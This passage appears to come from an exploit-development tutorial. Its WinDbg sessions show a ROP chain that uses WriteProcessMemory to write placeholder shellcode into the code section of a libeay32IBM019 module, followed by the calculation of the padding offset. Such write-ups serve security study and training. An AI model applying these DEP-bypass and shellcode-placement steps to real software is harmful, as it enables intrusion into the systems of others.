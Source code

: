 Copy:

```c
0:082> u 02ea2c04 
libeay32IBM019!N98E_bn_sub_words+0x107c:
02ea2c04 0000            add     byte ptr [eax],al
02ea2c06 0000            add     byte ptr [eax],al
02ea2c08 0000            add     byte ptr [eax],al
02ea2c0a 0000            add     byte ptr [eax],al
02ea2c0c 0000            add     byte ptr [eax],al
02ea2c0e 0000            add     byte ptr [eax],al
02ea2c10 0000            add     byte ptr [eax],al
02ea2c12 0000            add     byte ptr [eax],al
0:082> pt
eax=00000001 ebx=05e6c388 ecx=00000000 edx=76f62da0 esi=42424242 edi=00669360
eip=752f98bd esp=0d5ee2e0 ebp=41414141 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
KERNELBASE!WriteProcessMemory+0x6d:
752f98bd c21400          ret     14h

0:082> u 02ea2c04 
libeay32IBM019!N98E_bn_sub_words+0x107c:
02ea2c04 cc              int     3
02ea2c05 cc              int     3
02ea2c06 cc              int     3
02ea2c07 cc              int     3
02ea2c08 cc              int     3
02ea2c09 cc              int     3
02ea2c0a cc              int     3
02ea2c0b cc              int     3
```

```c
0:082> p
eax=00000001 ebx=05e6c388 ecx=00000000 edx=76f62da0 esi=42424242 edi=00669360
eip=02ea2c04 esp=0d5ee2f8 ebp=41414141 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
libeay32IBM019!N98E_bn_sub_words+0x107c:
02ea2c04 cc              int     3
```

Lastly, as we have placed the shellcode 256 bytes further, we need to find the exact offset to place padding.
Let's use the lpBuffer address and substract some bytes until we find the last ROP gadget, and then perform the substraction:
```c
0:082> dd 0d5ee40c - 70
0d5ee39c  02e6b415 cccccccc cccccccc cccccccc
0d5ee3ac  cccccccc cccccccc cccccccc cccccccc
0d5ee3bc  cccccccc cccccccc cccccccc cccccccc
0d5ee3cc  cccccccc cccccccc cccccccc cccccccc
0d5ee3dc  cccccccc cccccccc cccccccc cccccccc
0d5ee3ec  cccccccc cccccccc cccccccc cccccccc
0d5ee3fc  cccccccc cccccccc cccccccc cccccccc
0d5ee40c  cccccccc cccccccc cccccccc cccccccc

0:082> ? 0d5ee40c  - 0d5ee3a0  
Evaluate expression: 108 = 0000006c

```
